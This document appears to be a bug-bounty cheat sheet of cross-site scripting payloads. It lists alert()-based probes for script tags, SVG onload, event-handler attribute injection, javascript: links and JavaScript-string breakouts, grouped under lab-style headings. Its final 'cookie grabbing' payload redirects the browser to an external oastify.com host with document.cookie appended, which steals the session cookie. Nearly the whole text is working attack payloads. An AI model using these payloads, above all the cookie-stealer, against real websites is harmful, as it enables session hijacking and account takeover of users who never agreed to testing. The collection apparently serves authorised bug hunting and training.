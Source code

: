 #### For testing.
```js
<script>alert(1337)</script>
<svg/ onload=alert(1337)//
<script onclick="alert(1337)">
" onclick="alert(1337)
" autofocus="alert(1337)
"onmouseover="alert(1)
">cyborg71<script>alert(1337)</script> >> DOM XSS in document.write sink using source location.search
<img src=x onerror=alert('XSS')>
<a href="javascript:alert('XSS')">Click me</a>
xss&lt;script&gt;alert&#40;1337&#41;&lt;&#47;script&gt;
```
### Reflected XSS into attribute with angle brackets HTML-encoded
![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
"onmouseover="alert(1)
```
### Reflected XSS into a JavaScript string with angle brackets HTML encoded
```js
<xss>'"
xss';alert(1);'xss
```
#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
